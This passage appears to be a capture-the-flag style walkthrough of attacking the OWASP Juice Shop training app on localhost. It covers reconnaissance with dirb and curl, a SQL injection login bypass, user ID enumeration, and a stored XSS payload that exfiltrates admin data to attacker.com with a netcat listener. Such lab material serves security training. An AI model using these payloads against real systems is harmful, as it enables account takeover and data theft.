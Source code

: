 ```javascript
<script>alert(document.cookie)</script>
```

### Example: Real-World Exploitation Techniques

Here's a walkthrough of exploiting multiple vulnerabilities in Juice Shop to achieve admin access:

1. **Reconnaissance**:
   ```bash
   # Explore the application
   dirb http://localhost:3000
   
   # Check for hidden endpoints
   curl http://localhost:3000/robots.txt
   
   # Discovered /ftp directory with potential sensitive files
   ```

2. **Initial Access via SQL Injection**:
   ```bash
   # Login with SQL injection
   # Username: ' OR 1=1--
   # Password: anything
   
   # Now logged in as the first user in the database
   ```

3. **Privilege Escalation via Broken Access Control**:
   ```bash
   # Intercept requests in Burp Suite
   # Notice user information is fetched from /api/Users/<id>
   
   # Enumerate users by trying different IDs
   curl http://localhost:3000/api/Users/1
   curl http://localhost:3000/api/Users/2
   
   # Found admin user at ID 1
   ```

4. **Session Hijacking via XSS**:
   ```javascript
   # Post a product review with XSS payload
   <script>
   fetch('/api/Users/1')
     .then(response => response.json())
     .then(data => {
       fetch('http://attacker.com/steal?data=' + btoa(JSON.stringify(data)))
     });
   </script>
   
   # Set up a listener on attacker.com to receive the data
   nc -lvnp 80
   ```

5. **Password Reset Attack**:
   ```bash
   # Use the security questions found in the admin profile
   # Reset admin password using known answers
   
   # Login as admin with new password
   ```
